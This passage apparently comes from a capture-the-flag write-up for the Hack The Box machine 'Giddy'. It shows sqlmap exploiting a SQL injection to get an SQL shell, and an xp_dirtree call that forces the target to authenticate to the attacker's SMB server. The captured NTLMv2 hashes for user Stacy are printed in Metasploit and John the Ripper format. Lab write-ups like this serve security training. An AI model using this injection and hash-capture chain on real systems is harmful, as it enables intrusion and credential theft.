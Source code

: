 Then, open sql-shell with sqlmap and execute command "xp_dirtree".<br>

{% highlight shell %}
root@kali:/home/sabonawa# sqlmap -u http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18 --sql-shell

~~~

sql-shell> EXEC master..xp_dirtree '\\10.10.14.23\baa,foo'
[19:14:59] [WARNING] reflective value(s) found and filtering out
EXEC master..xp_dirtree '\\10.10.14.23\baa,foo':    'NULL'
sql-shell>
{% endhighlight %}

Then, we can receive some SMB connections from Giddy.<br>

{% highlight shell %}
msf5 auxiliary(server/capture/smb) > [*] SMB Captured - 2019-02-26 20:51:20 +0200
NTLMv2 Response Captured from 10.10.10.104:49723 - 10.10.10.104
USER:Stacy DOMAIN:GIDDY OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:79b0c0199a0ea376964a588b6e689534 
NT_CLIENT_CHALLENGE:0101000000000000d45342d902ced40113e8c7ee19074eb600000000020000000000000000000000
[*] SMB Captured - 2019-02-26 20:51:20 +0200
NTLMv2 Response Captured from 10.10.10.104:49723 - 10.10.10.104
USER:Stacy DOMAIN:GIDDY OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:Disabled
NTHASH:eb7cabc3257b6e1fb783257dc135c6e9 
NT_CLIENT_CHALLENGE:010100000000000037b84ad902ced4011bbb4ce038500d1800000000020000000000000000000000
[*] SMB Captured - 2019-02-26 20:51:20 +0200
NTLMv2 Response Captured from 10.10.10.104:49723 - 10.10.10.104
USER:Stacy DOMAIN:GIDDY OS: LM:
LMHASH:Disabled 
LM_CLIENT_CHALLENGE:

~~~

{% endhighlight %}

At the same time, we can achieve john format password file in specified path.

{% highlight shell %}
sabonawa@kali:/root$ cat pw.txt_netntlmv2 
Stacy::GIDDY:1122334455667788:61ae7af3ca2b17f741a536b66dbc5f47:01010000000000006b068f63f5cdd401e9d1374089ee722200000000020000000000000000000000
Stacy::GIDDY:1122334455667788:823e63d2c40f8e7371451b6d427df435:0101000000000000ab809663f5cdd401fbb9f8a8f29f23cf00000000020000000000000000000000
Stacy::GIDDY:1122334455667788:a6f46c56847372412f2f2efbdc91b3e4:0101000000000000add89d63f5cdd4014b711016199a5cae00000000020000000000000000000000
Stacy::GIDDY:1122334455667788:970b31084f1159dc5f3f88d8634ff3ce:01010000000000004415a463f5cdd401f908739a8756930d00000000020000000000000000000000
Stacy::GIDDY:1122334455667788:592a79993ce2d680292578c0e91571e3:01010000000000004bf3aa63f5cdd40108bfb0813046619500000000020000000000000000000000
Stacy::GIDDY:1122334455667788:fcb7261b28331781821024526c79f785:0101000000000000a930b363f5cdd4019db3fefd5e58060500000000020000000000000000000000
Stacy::GIDDY:1122334455667788:0ac3c4f1fe26f6599525c45777f42b73:01010000000000002147bb63f5cdd401af7ab7fa325a1f5500000000020000000000000000000000
Stacy::GIDDY:1122334455667788:79b0c0199a0ea376964a588b6e689534:0101000000000000d45342d902ced40113e8c7ee19074eb600000000020000000000000000000000
Stacy::GIDDY:1122334455667788:eb7cabc3257b6e1fb783257dc135c6e9:010100000000000037b84ad902ced4011bbb4ce038500d1800000000020000000000000000000000